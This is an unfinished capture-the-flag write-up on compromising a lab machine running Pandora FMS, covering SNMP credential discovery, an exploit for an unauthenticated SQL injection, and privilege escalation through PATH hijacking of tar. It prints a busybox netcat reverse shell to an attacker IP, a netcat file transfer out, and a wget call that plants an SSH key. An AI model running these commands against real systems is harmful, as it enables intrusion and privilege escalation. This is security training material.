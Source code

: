 #InProgress 
```IP

```
# Enumeration
## SSH

## HTTP 80
Apache httpd 2.4.41
## SNMP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112117.png?raw=true)
```
daniel:HotelBabylon23
```

# Exploitation

# PrivEsc

## Manual
```
ssh daniel@10.10.11.136
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112534.png?raw=true)

## Automated

### Peass

/tmp/pspy64

lrwxrwxrwx 1 root root 22 Jun 11  2021 /etc/alternatives/my.cnf -> /etc/mysql/mariadb.cnf                                                                                                                                                  
lrwxrwxrwx 1 root root 24 Jun 11  2021 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf                                                                                                                                                       
-rw-r--r-- 1 root root 83 Dec  7  2021 /var/lib/dpkg/alternatives/my.cnf  
/etc/apache2/sites-enabled/pandora.conf
/usr/bin/pandora_backup


If we curl localhost we get the pandora http webpage
We use ligolo for portforwarding and to access it from our browser 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123241.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123255.png?raw=true)
Now we have access from our machine:
```
curl 240.0.0.1
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123457.png?raw=true)
The webpage has a login access:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123339.png?raw=true)
When using the daniel credentials we already had it prompts the following error:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123134.png?raw=true)

v7.0NG.742_FIX_PERL2020
RCE exploit for our Pandora version:
https://www.exploit-db.com/exploits/50961
```
python exploit.py -t 240.0.0.1 80 -u daniel 'HotelBabylon23' -c 'whoami'
```
It does not work with our credentials as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217124015.png?raw=true)

https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
```
python sqlpwn.py -t 240.0.0.1 -f rev.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217164522.png?raw=true)
We can spawn a bash shell with busybox
```
busybox nc 10.10.14.16 443 -e sh
```
And then upgrade it with python3
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165745.png?raw=true)
We got the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165937.png?raw=true)
We locate some credentials
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217170815.png?raw=true)
pandora:PandoraFMSSecurePass2021
We can't log to the mysql server with these credentials though
```
find / -perm -u=s -type f 2>/dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174749.png?raw=true)
This is not a common file to have SUID permissions. Let's take a closer look to it.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174913.png?raw=true)
we have execution and reading privileges over it as matt, but it belongs to the root user. Suspicious.

We transfer the file to our local machine in order to execute the strings command over it:
```
nc 10.10.14.16 4444 < /usr/bin/pandora_backup
nc -lvnp 4444 > pandora_backup
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175114.png?raw=true)
Once we execute the strings command over it we can see that it is executing tar without a full path, which can become a privilege escalation vector:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175309.png?raw=true)
In GTFOBins we can find how to exploit this permission. It will read everything in the /var/www/pandora/pandora_backup/ directory, so we can create files that mimic a flag. The following flags can execute code as stated in the following URL:
https://gtfobins.github.io/gtfobins/tar/

```
echo "" > ' --checkpoint=1'
echo "" > ' --checkpoint-action=exec=sh'
```
Now we will execute the binary:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217180820.png?raw=true)
And it fails. For some reason sudo -l does not request us any password. for some reason setuserID user calls are broken.
With 
```
ps -ef
```
we can trace back what are our current process parents, and we will see that apache is one of them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181507.png?raw=true)
If we take a look at its configuration we will discover that there is a SetUserID that is breaking our same call
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181700.png?raw=true)
We have to escape apache, so we will create  ssh keys in our machine
```
ssh-keygen -f matt
```
```
mkdir /home/matt/.ssh
cd /home/matt/.ssh
wget http://10.10.14.16:8000/matt.pub -O authorized_keys
```
And from our machine:
```
ssh -i matt matt@10.10.11.136
```
Which will bring us a shell that runs sudo fine.
We now run the program and it still does not work
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217183639.png?raw=true)
We can see that it is not executing our files as flags.... we will try yet another aproach. tar is executing without its full path. So we will create our own tar malicious file and inject a new directory to our PATH variable
```
echo '/bin/bash' > tar
chmod +x tar
export PATH=$(pwd):$PATH
/usr/bin/pandora_backup
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217184521.png?raw=true)
### Mimikatz

# Lateral Movement

